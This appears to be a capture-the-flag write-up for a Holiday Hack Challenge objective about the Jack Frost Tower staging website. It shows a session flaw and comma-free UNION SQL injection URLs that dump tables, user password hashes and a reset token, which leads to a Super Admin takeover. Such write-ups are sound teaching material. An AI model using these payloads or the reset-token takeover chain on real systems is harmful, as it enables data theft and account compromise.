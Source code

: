 # Objective 12: Frost Tower Website Checkup
**Location: Studio, Frost Tower, 16<sup>th</sup> Floor, https://staging.jackfrosttower.com/**  
**Troll: Ingreta Tude**  
**Hints provided by Ribb Bonbowford after completion of [Elf Code Python](https://github.com/joergschwarzwaelder/hhc2021/blob/master/Additional/Elf%20Code%20Python.md)**

This objective is to perform a security assessment of the Frost Tower website with the [source code](https://download.holidayhackchallenge.com/2021/frosttower-web.zip) being provided.
It has to be found, which job position Jack Frost plans to offer Santa on his todo list.

### Auth flaw

The application tracks the user's session in `session` (login name, user's role etc.).
It was found that a valid session is also set, if you complete the [contact form](https://staging.jackfrosttower.com/contact) whilst the email address is already captured in the database. So you could just register twice to get a valid user session for an unprivileged user.
```
app.post('/postcontact', function(req, res, next){
[...]
        var rowlength = rows.length;
        if (rowlength >= "1"){
            session = req.session;
            session.uniqueID = email;
            req.flash('info', 'Email Already Exists');
            res.redirect("/contact");
```            
### SQLi flaw

Using this unprivileged user session, an SQLi flaw in the function to get user details could be used to retrieve more information from the database.
```
app.get('/detail/:id', function(req, res, next) {
    session = req.session;
    var reqparam = req.params['id'];
    var query = "SELECT * FROM uniquecontact WHERE id=";
    if (session.uniqueID){
        try {
            if (reqparam.indexOf(',') > 0){
                var ids = reqparam.split(',');
                reqparam = "0";
                for (var i=0; i<ids.length; i++){
                    query += tempCont.escape(m.raw(ids[i]));
                    query += " OR id="
                }
                query += "?";
            }else{
                query = "SELECT * FROM uniquecontact WHERE id=?"
            }
        } catch (error) {
            console.log(error);
            return res.sendStatus(500);
        }

        tempCont.query(query, reqparam, function(error, rows, fields){
```
As only caveat it has to be ensured, that the **comma character has to be avoided** in the SQL statement as the application splits up the query at the commas.
Furthermore it is important to note that "union" requires that the **number of columns on both sides match**.
Due to the fact, that the ```uniquecontact``` table has 7 columns, it has to be ensured, that also on the right hand side of the `union` 7 columns have to be delivered.

This URL is the base for all following SQLi attacks:
```
https://staging.jackfrosttower.com/detail/0,0 union
```
During research a [very good explanation](https://secgroup.github.io/2017/01/03/33c3ctf-writeup-shia/) about how to avoid commas in SQL statements and how to get to the right amount of columns was found and the attacks outlined below follow exactly this approach.


### Getting access to Jack Frosts todo list

We can obtain a list of all interesting tables in the MySQL database using this SQL statement:
```
select table_name from information_schema.tables;
```
This can be rewritten for our SQLi flaw:
```
https://staging.jackfrosttower.com/detail/0,0 union select * from (select 1)a1 join (select 2)a2 join (select table_name from information_schema.tables)d join (select 3)j join (select 4)k join (select 5)l join (select 6)m;--
```
This reveals, that in addition to the tables `users`, `emails` and `uniquecontact`, which are known as they are used in the application and in the provided schema of encontact `encontact_db.sql`, there is an additional table `todo`, which seems to be the todo list we need access to.

Using the SQL statement
```
select column_name from information_schema.columns where table_name="todo";
```
the list of columns in the table `todo` can be obtained.
This can be rewritten for the SQLi as follows:
```
https://staging.jackfrosttower.com/detail/0,0 union select * from (select 1)a1 join (select 2)a2 join (select column_name from information_schema.columns where table_name="todo")d join (select 3)j join (select 4)k join (select 5)l join (select 6)m;--
```
we can see, that this table consists out of 3 columns: `id`, `note`, `completed`.
The `note` column can then be extracted using
```
select note from todo;
```
Rewritten for the SQLi:
```
https://staging.jackfrosttower.com/detail/0,0 union select * from (select 1)a1 join (select 2)a2 join (select note from todo)d join (select 3)j join (select 4)k join (select 5)l join (select 6)m;--
```
This brings up Jack Frosts todo list:

 - Buy up land all around Santa's Castle
 - Build bigger and more majestic tower next to Santa's
 - Erode Santa's influence at the North Pole via FrostFest, the greatest Con in history
- Dishearten Santa's elves and encourage defection to our cause
- Steal Santa's sleigh technology and  build a competing and way better Frosty present delivery vehicle
- Undermine Santa's ability to deliver presents on 12/24 through elf staff shortages, technology glitches, and assorted mayhem 
- Force Santa to cancel Christmas
- SAVE THE DAY by delivering Frosty presents using merch from the Frost Tower Gift Shop to children world-wide... so the whole world sees that Frost saved the Holiday Season!!!! Bwahahahahaha!
- With Santa defeated, offer the old man a job as a **clerk** in the Frost Tower Gift Shop so we can keep an eye on him

---
### Bonus: Getting Super Admin privileges in the application


Using the SQLi flaw, a full list of registered users and admins (along with password hashes and privilege levels) can be retrieved using this link:
```
https://staging.jackfrosttower.com/detail/0,0 union select * from users--
```
This contains for example:
 - Super Admin
 - root@localhost
 - $2b$10$JnLy8pq1fC/KrS.bn1NAOx13GzDavIOZJkuayDC7JSCNKvQUha3i
 - 1
 - November 23rd, 2021 11:00:00
 - December 18th, 2021 7:05:17

---
- Admin
- admin@localhost
- $2b$10$FTkzq07Az57M.Q8jw7ehB..h5Vdc3Vw04zQzJIt294bgwg7.aV1GC
- 2
- December 3rd, 2021 11:00:00

This shows, that we have a "Super Admin" with the email address root@localhost defined in the system.

Next the "[forgot password](https://staging.jackfrosttower.com/forgotpass)" function of the application can be used to increase the privileges.
When resetting the password for a user, a random token is created and stored in the user database in the column `token`. If we are able to get hold of this token, we can change the password of the user and have full control.

The token for the Super Admin "root@localhost" can be retrieved using this URL:
```
https://staging.jackfrosttower.com/detail/0,0 union select * from (select 1)a join (select 2)b join (select 3)c join (select token from users where email="root@localhost")d join (select 4)e join (select 5)f join (select 6)g;--
```

Using the URL https://staging.jackfrosttower.com/forgotpass/token/{retrieved_token} it is possible to set a new password for the "Super Admin" user.
Being logged on as this user, a new personalized user with "Super Admin" privileges can be created.

**Achievement: Frost Tower Website Checkup**




